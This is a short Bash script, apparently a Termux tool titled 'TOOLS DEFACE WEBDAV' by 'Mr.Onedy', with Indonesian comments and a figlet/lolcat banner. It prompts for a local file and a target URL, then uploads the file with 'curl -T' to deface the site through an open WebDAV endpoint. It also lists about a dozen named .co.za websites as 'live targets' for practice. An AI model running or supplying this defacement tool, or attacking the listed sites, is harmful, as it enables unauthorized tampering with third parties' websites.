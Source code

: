 # wDAv
#Hi! Ngapain exploit nano? #CODING SEDERHANA AJA MASA DI RECODE STER ^^ #GUA EMANG GA PRO TAPI GUA BERUSAHA^^  figlet -f slant Mr.Onedy | lolcat  echo  "_____________________________________________________________" |lolcat echo  "[TYPE      : TOOLS DEFACE WEBDAV] " |lolcat echo  "[AUTHOR    : Mr.Onedy] " |lolcat echo  "[ASSOCIATE : INDONESIAN TERMUX ASSOCIATION] " |lolcat echo  "[NOTES     : BE A SMART PEOPLE] " | lolcat echo  "[THANKS TO : GOD]" | lolcat echo  "_____________________________________________________________" | lolcat sleep 1  echo "${y} [Live Target Pembelajaran : bitsandpieces.co.za cblandscapes.co.za windmillsandporcupines.co.za http://scnc.co.za http://contsol.co.za http://consultec.co.za http://colourfactory.co.za http://ayk.co.za http://daretogowildafrica.co.za http://floralandfresh.co.za http://foodconsult.co.za http://itsengineering.co.za]" echo  "${y} {1} MASUKAN NAMA SCRIPT [SAVE ON STORAGE,ex:index.html]${endc}:" | lolcat read sc echo echo "${y} {2} MASUKAN WEB TARGET" | lolcat read web curl -T /sdcard/$sc $web echo "${y} [OUTPUT]=" $web/$sc | lolcat  #[Coding by Mr.Onedy]
